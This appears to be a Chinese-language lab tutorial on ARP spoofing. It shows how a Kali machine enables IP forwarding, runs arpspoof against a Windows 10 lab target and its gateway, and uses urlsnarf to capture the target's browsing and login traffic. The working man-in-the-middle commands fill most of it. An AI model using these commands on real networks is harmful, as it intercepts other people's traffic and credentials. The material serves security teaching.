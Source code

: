 # ARP攻击-流量分析

## 1.课前准备

1.kali作为攻击机(192.168.15.141)

2.win10作为靶机(192.168.15.100)

## 2.kali数据包转发

出于安全考虑，Linux系统默认是禁止数据包转发的。所谓转发即当主机拥有多于一块的网卡时，其中一块收到数据包，根据数据包的目的ip地址将数据包发往本机另一块网卡，该网卡根据路由表继续发送数据包。这通常是路由器所要实现的功能。我们需要手动开启转发功能。

**1.如何开启通信转发？**

kali里有个ip_forward 配置文件 

1.默认是0 禁止端口转发

2.将其设置成1 开启端口转发

**2.开启步骤**

1.查看当前是否开启了端口转发

```
cat /proc/sys/net/ipv4/ip_forward 
```

2.开启通信转发的命令

```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

3.使用arpspoof发起ARP攻击

```
arpspoof -i eth0 -r 192.168.15.2 -t 192.168.15.100
```

![image-20240927224907560](3.ARP攻击-流量分析/image-20240927224907560.png)	

4.win10验证是否转发成功,于是此时哪怕使用arp欺骗，win10也可以联网。

```
访问：https://www.mashibing.com/
```

![image-20240927225017389](3.ARP攻击-流量分析/image-20240927225017389.png)	

## 3.dsniff工具

**1.工具介绍**

Dsniff是一个基于unix系统网络嗅探工具，工具集包含两个我们需要的两个工具包，arpspoof 和urlsnarf。              

**2.安装方法**

```
apt-get install dsniff
```

3.urlsnarf工具介绍

```
urlsnarf -h
urlsnarf [-n] [-i interface | -p pcapfile] [[-v] pattern [expression]]

-n 表示不反查主机名
-i interface 网卡接口名
-p pattern 表示对过滤的内容使用的正则表达式
-v表示取相反，即是不匹配；expression 是过滤语法，和tcpdump的相同，请参考tcpdump。
```

​	



## 4.url流量分析

**1.概念**

URL流量嗅探操作非常类似于中间人攻击，通过目标主机将路由流量注入到因特网。该过程将通过ARP注入实现攻击。url嗅探能够实时跟踪电脑中的数据流量信息，并且分析出它的类型和去向。从而获得你上网信息。

**2.攻击流程**

1.开启流量转发

```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

2.开启ARP攻击

```
arpspoof -i eth0 -r 192.168.110.1 -t 192.168.110.11
```

3.捕获目标计算机的url

```
urlsnarf -i eth0
```

4.靶机上网，访问网站

```
1.http://www.kangda.cn/#/user/login?redirect=http%3A%2F%2Fwww.kangda.cn%2F%23%2F
2.http://blog.tianya.cn/
```

5.kali分析用户请求

具体操作如下

显示版本号说明安装成功。

![image-20240927231636473](3.ARP攻击-流量分析/image-20240927231636473.png)	

开始进行arp欺骗。

![image-20240927231741742](3.ARP攻击-流量分析/image-20240927231741742.png)	

并且开始监听eth0，即监听靶机转发过来的数据有哪些。从而得知靶机的上网记录。

![image-20240927231833379](3.ARP攻击-流量分析/image-20240927231833379.png)	

win10靶机模仿上网，并且输入账号密码

![image-20240927232004862](3.ARP攻击-流量分析/image-20240927232004862.png)

但是这里明显捕获流量失败，但是具体操作就是这么回事，懂原理即可。

![image-20240927232621007](3.ARP攻击-流量分析/image-20240927232621007.png)	

## 5.课堂小结

请看ARP流量分析课后笔记.xmind